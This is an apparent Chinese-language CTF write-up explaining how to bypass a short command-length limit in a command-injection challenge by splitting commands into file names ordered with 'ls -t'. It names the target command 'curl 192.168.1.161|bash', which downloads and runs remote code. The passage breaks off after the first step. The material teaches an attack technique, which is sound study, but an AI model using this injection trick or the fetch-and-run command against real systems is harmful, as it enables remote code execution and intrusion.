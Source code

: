 ```
ls -t>a
字符串长度为7，超过限制5

>\ \\
构造空格的字符串长度最少为5，超过一个空格便无法构造

长度限制为7时的命令不再适用
```

![image-20240427192327068](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404271923282.png)

**构建命令**

```
期望执行的命令
curl 192.168.1.161|bash
```

**步骤一**：构造ls-t>y

ls默认排序无法正常排出“ls\”"\""-t\"">y\"

"ls\"默认会排在最后，无法正常执行命令的

所以：我们先创建文件ls\

```
>ls\
```

在创建文件"_"，并把“ls\”写入

```
ls>_
```

再创建其他文件

```
>\ \\
>-t\\
>\>y
```

用>>把所有文件名追加到文件_

```
ls>>_
```

最后sh_执行文件\_中的内容，即创建文件y

```
sh_
```

**步骤二：**分解命令，创建文件

![image-20240427195355410](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202404271953465.png)
